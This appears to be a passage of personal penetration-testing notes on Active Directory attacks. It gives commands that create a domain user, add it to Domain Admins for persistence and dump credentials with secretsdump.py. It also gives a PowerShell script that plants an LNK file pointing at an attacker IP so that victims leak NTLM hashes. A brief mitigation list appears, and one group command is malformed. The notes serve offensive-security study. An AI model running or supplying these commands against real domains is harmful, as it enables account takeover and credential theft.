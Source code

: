 
**==At this point we can add a new user to the Active Directory system (MAINTAIN ACCESS) ==**:
```bash
net user /add username Password /domain
```
- `/domain` here must stay domain in lower 
- ![[Pasted image 20241220123605.png]]

**==At this point we need to add the new user in the admin group:==**
```bash
group "Domain Admins" username /ADD /DOMAIN
```
- `/DOMAIN` must remain DOMAIN
- ![[Pasted image 20241220123549.png]]


At this point we have the acess as admin to the AD.


Now we can test it on the terminal:
```bash
secretsdump.py DOMAIN/username:'PASSWORD'@DOMAIN_CONTROLLER_IP
```
- ![[Pasted image 20241220123720.png]]



## Mitigation
The idea to mitigate this attack is to:
- limit user/group token creation
- use account tiering 
- use local admin restriction

 
# LNK file attack

**==The idea is to store a file into shared folders in order to get some results, or in general in order to point to our host.==**


**==When a user clicks on the link file his host tries to resolve the link and sends to your attacker host the `NTLM` hash value.==**

The first way to do that is to create a file by our own with the using of **==elevated (admin) powershell==** (if we have access to the file share):
```powershell
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\OUR_MACHINE_IP\@test.png" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 
$lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```
- we create this `test.lnk` file that tries to resole a `png` file pointing back to our attack machine 
- ==**the resolving will send us the request with the hashes**==
- this will save the file into `C` drive
